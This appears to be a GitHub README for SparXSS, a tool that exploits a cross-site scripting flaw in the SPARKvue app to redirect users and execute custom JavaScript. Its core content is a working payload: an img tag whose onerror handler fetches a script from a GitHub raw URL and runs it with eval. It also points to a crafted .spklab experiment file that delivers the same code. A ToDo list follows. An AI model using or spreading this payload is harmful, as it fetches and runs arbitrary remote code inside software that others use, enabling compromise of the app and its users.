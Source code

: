 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

Or Download The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App - Might not always be up to date

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
- ~~Make the links save without having to manually click the textbox where the script is~~
- May add a tabbing feature to the javascript, but this is not a final decision as there is not too much of a point - yea im not doing this
